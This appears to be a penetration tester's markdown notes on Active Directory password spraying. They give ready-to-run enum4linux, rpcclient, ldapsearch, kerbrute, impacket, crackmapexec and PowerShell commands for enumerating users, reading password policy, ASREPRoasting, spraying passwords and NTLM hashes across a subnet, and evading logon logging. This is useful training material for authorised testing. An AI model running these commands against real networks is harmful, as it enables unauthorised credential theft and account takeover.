 # Password Spraying

Once you are in the network and have enumerated live hosts using nmap, tcpdump or whatever tool.
We need to find a way to establish foothold in domain by gettng username and credentials (clear text or NTLM hash).
It is important to get this access in the early stages of pentest so we can perform more enumeration and attacks.

Note: It’s possible to do this using the SYSTEM account because it can impersonate the computer.
A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). 


### Users Enumeration

- SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, 
such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using enum4linux
 enum4linux -U $DC_IP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

 # using rpcclient
 rpcclient -U "" -N $DC_IP
 rpcclient $> enumdomusers

 # using crackmapexec
 crackmapexec smb $DC_IP --users
 ```

- LDAP Anonymous Bind allow unauthenticated attackers to retrieve information from the domain, such as a complete
 listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using ldapsearch, we need to provide proper filter for getting usernames
 ldapsearch -H ldap://$DC_IP -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

 # using windapsearch, it is easier as we dont need filter
 windapsearch.py --dc-ip $DC_IP -u "" -U
 windapsearch.py --dc-ip $DC_IP -d $DOMAIN --custom "objectClass=*"
 ```

- Do some OSINT and try to get information related to people of the target company.
- You can use `linkedin2username` to create a possible worlist of users.

 ```shell
 linkedin2username.py -c company_name -n $DOMAIN -g -o linked_in_users.txt
 ```
- kerbrute is a stealthy option for domain account enumeration.
- It uses kerberos protocol to check if the username is valid or not.
- It takes advantage of kerberos pre-authentication, as the failures will not trigger logs or alerts.
 like Windows event ID 4625: An account failed to log on and event ID 4768: A Kerberos authentication
 ticket (TGT) was requested. This will only be triggered if Kerberos event logging is enabled via Group Policy.
- If we are successful with this, we should mention it in report

 ```shell
 kerbrute userenum -d $DOMAIN --dc $DC_IP wordlist.txt -o valid_ad_users

 # The tool sends TGT requests to the domain controller without Kerberos 
 # Pre-Authentication to perform username enumeration. If the KDC responds 
 # with the error PRINCIPAL UNKNOWN, the username is invalid.
 ```

Note: crackmapexec will provide you bad password count and time the latest bad attempt occured. This 
will help you in knowing which accounts are close to lockdown and you should avoid attacking them.
This count is maintained separate on each DC in case of multiple DCs.


### Getting Domain Password Policy

- Be careful not to lock accounts while spraying.
- Try to get domain password policy and prepare password list accordingly.
- We can get password policy from `SMB NULL Session` or `LDAP Anonymous Bind`.
- SMB NULL Session from Linux:

 ```shell
 # using rpc client
 rpcclient -U "" -N $DC_IP
 rpcclient $> getdompwinfo

 # using enum4linux
 enum4linux -P $DC_IP

 # using enum4linux-ng (better choice)
 enum4linux-ng -P $DC_IP -oA domain_info
 ```


- SMB NULL Session from Windows:

 ```shell
 net use \\DC01\ipc$ "" /u:""

 # you can use it to check users and passwords
 net use \\DC01\ipc$ "" /u:username
 net use \\DC01\ipc$ "password" /u:username
 ```

- LDAP Anonymous Bind from Linux:

 ```shell
 ldapsearch -H ldap://$DC_IP -x -b "DC=<$DOMAIN>,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
 ```

- LDAP Anonymous Bind from Windows:

 ```shell
 # built in tool
 net accounts

 # using powerview
 import-module .\PowerView.ps1
 Get-DomainPolicy

 # You can also use crackmapexec
 ```

- If you have tried other methods and dont have foothold, you may ask the client to
provide password policy.


## ASREPRoasting

```shell
# Using kerbrute
kerbrute userenum -d $DOMAIN --dc $DC_IP valid_users_list 

# Using impacket toolkit
GetNPUsers.py $DOMAIN/ -dc-ip $DC_IP -no-pass -usersfile valid_ad_users 
```


## Password Spraying

- Once we have enumerated usernames, password policy and prepared wordlists accordingly, we can start
spraying passwords.

- For Linux:

 ```shell
 # using rpc client
 for u in $(cat $USERNAMES_LIST);do rpcclient -U "$u%$Password" -c "getusername;quit" $DC_IP | grep Authority; done

 # using kerbrute
 kerbrute passwordspray -d $DOMAIN --dc $DC_IP valid_users.txt  $PASSWORD
 
 # using crackmapexec
 crackmapexec smb $DC_IP -u valid_users.txt -p $PASSWORD | grep +
 ```

- If you get some hits, you can validate them:

 ```shell
 crackmapexec smb $DC_IP -u username -p password
 ```

- For Windows:
 ```shell
 # DomainPasswordSpray is a cool tool. If you run it when you are authenticated to domain
 # it will retrieve password policy, valid users and exclude accounts within 1 attempt of locking out
 Import-Module .\DomainPasswordSpray.ps1
 Invoke-DomainPasswordSpray -Password $PASSWORD -OutFile spray_success -ErrorAction SilentlyContinue
 ```

- Always look for patterns in password, try password reuse etc.
- Internal password spraying is possible from domain user account as well as local admin if you have creds, NTLM hash.
- If you have hash of local admin on a machine, you can spray it on entire subnet to check if it is valid on other machines as well.

 ```shell
 crackmapexec smb --local-auth $IP/23 -u administrator -H $HASH | grep +
 ```

### Other Targets
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication